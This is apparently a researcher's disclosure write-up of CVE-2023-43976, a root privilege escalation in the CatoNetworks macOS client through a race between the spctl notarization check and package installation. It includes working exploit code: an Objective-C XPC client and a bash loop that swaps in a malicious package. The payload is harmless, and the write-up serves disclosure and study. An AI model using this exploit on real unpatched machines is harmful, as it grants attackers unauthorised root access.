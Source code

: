 ```yaml
---
title: CVE-2023-43976 - CatoNetworks macOS LPE
description: Exploiting notorization race conditions
date: 2023-10-02T09:07:48.381687+02:00
toc: false
tags:
    - reverse-engineering
    - frida
    - lldb
    - xpc
    - macos
refs:
    - https://www.catonetworks.com
draft: false
---
```


# Introduction

A couple of months ago, I have found Local Privilege Escalation vulnerability inside of CatoNetworks macOS application which is fixed in the version
5.4.0. We will see how to exploit the simple race condition in order to achieve escalation of privileges to _root_ user.

# Analysis

After examining `~/Library/LaunchDaemons/com.catonetworks.mac.CatoClient.helper.plist` we can see that the Mach service name is `com.catonetworks.mac.client.daemon` and 
the binary it runs is `/Library/Application Support/CatoNetworks/com.catonetworks.mac.CatoClient.helper`. We will take a note of the Mach service name because we will need 
it to communicate with the XPC service.

![CatoNetworks LaunchDaemon](../images/cato_ldaemon.png)

After we have obtained some limited information, we need to load the main binary in _Hopper_ to analyze what is happening and to check whether there are any vulnerabilities.

Searching for `listener:shouldAcceptNewConnection` revealed that the exported protocol is `_TtP38com_catonetworks_mac_CatoClient_helper15CommandProtocol_`.

![Accepting new connection](../images/cato_listener.png)

Running class dump showed that this protocol contains a single method `- (void)installPackageAtPath:(NSString *)arg1 withCompletion:(void (^)(BOOL))arg2;`.

![Exported protocol](../images/cato_protocol.png)

Based on the name, we can conclude that we need to provide the path to the `.pkg` file and we can check whether we have succeeded or not based on the reply block.

If we now search for implementation of this method, we can see that it calls function `sub_100002b7c`.

![Install package implementation](../images/cato_install_package.pkg)

![Main function](../images/cato_main_func.png)

Analyzing the `sub_100002b7c` function, we can see that it checks whether `sub_1000027b0` returned successfully, followed by creation of `NSTask` (to run programs).

![Creating NSTask](../images/cato_nstask.png)

Near the end of the function, there is another check which confirms whether probably the output of the run NSTask contains `\norigin=Developer ID Installer: Cato Networks Ltd (CKGSB8CH43)`.

![Checking for string](../images/cato_string_check.png)

We will now create a minimal objc code to communicate with the service, and we will examine the arguments passed to `-[NSTask setLaunchPath:]` and `-[NSTask setArguments:]` methods with debugger (lldb).

The objc code:

```objc
// gcc cato.m -o cato -framework Foundation
#import <Foundation/Foundation.h>

static NSString * serviceName = @"com.catonetworks.mac.client.daemon";

@protocol _TtP38com_catonetworks_mac_CatoClient_helper15CommandProtocol_
- (void)installPackageAtPath:(NSString *)arg1 withCompletion:(void (^)(BOOL))arg2;
@end

int main(int argc, const char **argv) {
    NSXPCConnection * conn = [[NSXPCConnection alloc] initWithMachServiceName:serviceName options:4096];

    [conn setRemoteObjectInterface:[NSXPCInterface interfaceWithProtocol:@protocol(_TtP38com_catonetworks_mac_CatoClient_helper15CommandProtocol_)]];
    [conn resume];

    id obj = [conn remoteObjectProxyWithErrorHandler:^(NSError * error) {
           NSLog(@"Error: %@", error);
    }];

    NSString * pkgPath = [NSString stringWithCString:argv[1] encoding:NSASCIIStringEncoding];

    [obj installPackageAtPath:pkgPath withCompletion:^(BOOL succeeded) {
        if (succeeded) {
            NSLog(@"Exploit succeeded; check /tmp/himynameis");
        } else {
            NSLog(@"Exploit failed; please try again");
        }
    }];

    dispatch_main();
    return 0;
}
```

While inside of `lldb` we want to set the breakpoints and examine the arguments. Compiling the above code and running it as `./cato nsecho` gives the following 
inside of lldb.

![LLDB arguments](../images/cato_lldb.png)

From the lldb output we can conclude that the service is calling `/usr/sbin/spctl` with the arguments `-a -vvv -t install PACKAGE_PATH_WE_PROVIDED`. `spctl` is used to check notorization on the pkg files.

Running the exact command on the legitimate CatoNetworks package returns the output which contains the string we found earlier (`\norigin=Developer ID Installer: Cato Networks Ltd (CKGSB8CH43)`).

![spctl on Cato](../images/cato_spctl.png)

So far we now the following:

* Services uses `_TtP38com_catonetworks_mac_CatoClient_helper15CommandProtocol_` protocol
* We need to call `installPackageAtPath:pkgPath withCompletion:`
* Service checks whether the app is notorized by the Cato using `spctl`
* Gets installed if the previous check was successful

It seems that there is no way to exploit it, but after running spctl, I have noticed that it doesn't return immediately, it takes a couple of milliseconds, meaning that we have 
potential race condition here.

![spctl run](../images/cato_spct_lag.png)

To exploit this, we need to do the following:

* Run the exploit, providing the path to the legitimate Cato pkg file
* Wait a bit
* Replace the legitimate Cato pkg file with the malicious one
* Local Privilege Escalation

I will just add a simple command in the `postinstall` scripts which writes the current user to `/tmp/himynameis` file.

![postinstall script](../images/cato_postinstall.png)

_The exploit bash script:_

```bash
#!/bin/bash

ORIGINAL=/Users/demon/Downloads/CatoClient-2.pkg
FAKE=/Users/demon/Downloads/exploit.pkg
TEMP=/tmp/expl.pkg

while [ true ]
do
    cp "${ORIGINAL}" "${TEMP}"

    ./cato "${TEMP}" &
    sleep 0.1
    cp "${FAKE}" "${TEMP}"
    sleep 4
    stat /tmp/himynameis > /dev/null 2>&1 && exit 0
done
```

![Running the exploit](../images/cato_exploit.png)